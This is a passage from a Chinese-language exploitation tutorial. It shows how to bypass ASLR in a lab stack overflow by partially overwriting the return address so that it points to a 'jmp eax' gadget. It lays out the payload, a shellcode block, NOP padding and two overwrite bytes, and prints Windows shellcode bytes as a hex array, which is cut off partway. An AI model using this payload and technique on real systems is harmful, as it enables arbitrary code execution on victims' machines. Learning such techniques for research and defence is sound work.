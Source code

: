 由于我们没有开启 GS，超过 200 字节后将直接覆盖返回地址，现在我们知道返回地址的前两个字节（00FD）将会随机化，但是后面的两个字节是固定的，现在我们只要将我们 ShellCode 地址的后两字节用来覆盖返回地址即可执行 ShellCode：  
str 起始地址：

[![](assets/1709261916-88c93f78a2867674ff5886eb8b7c21f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228170938-199735b2-d619-1.png)

现在我们将 Payload 这样布置：  
| ShellCode | \\x90 填充 | 2 字节覆盖地址 |  
|--|--|--|

现在我们要如何跳转到 ShellCode 开始执行呢？观察寄存器，发现进行内存复制后，eax 指向 str，也就是我们的 ShellCode 地址，我们只需要一个 call eax 或者 jmp eax 就可以执行我们的 ShellCode 了，我们来搜索一下 gadgets：

[![](assets/1709261916-8cf419d8c999c31453229d1538bbd5f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228172611-696e01c2-d61b-1.png)

这里我们只能使用第一个，因为前两个字节是随机的，我们无法控制，这里将返回地址后两个字节覆盖为 23E5 后，正好可以指向这个跳板。

Payload：

```plain
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\ASLR\Debug\111.txt
// Address : 0 (0x0)
// Size    : 206 (0xCE)
//------------------------------------------------------------
unsigned char hexData[206] = {
    0xFC, 0xE8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89,
    0xE5, 0x31, 0xC0, 0x64, 0x8B, 0x50, 0x30, 0x8B,
    0x52, 0x0C, 0x8B, 0x52, 0x14, 0x8B, 0x72, 0x28,
    0x0F, 0xB7, 0x4A, 0x26, 0x31, 0xFF, 0xAC, 0x3C,
    0x61, 0x7C, 0x02, 0x2C, 0x20, 0xC1, 0xCF, 0x0D,
    0x01, 0xC7, 0xE2, 0xF2, 0x52, 0x57, 0x8B, 0x52,
    0x10, 0x8B, 0x4A, 0x3C, 0x8B, 0x4C, 0x11, 0x78,
    0xE3, 0x48, 0x01, 0xD1, 0x51, 0x8B, 0x59, 0x20,
    0x01, 0xD3, 0x8B, 0x49, 0x18, 0xE3, 0x3A, 0x49,
    0x8B, 0x34, 0x8B, 0x01, 0xD6, 0x31, 0xFF, 0xAC,
    0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0x38, 0xE0, 0x75,
    0xF6, 0x03, 0x7D, 0xF8, 0x3B, 0x7D, 0x24, 0x75,
    0xE4, 0x58, 0x8B, 0x58, 0x24, 0x01, 0xD3, 0x66,
    0x8B, 0x0C, 0x4B, 0x8B, 0x58, 0x1C, 0x01, 0xD3,
```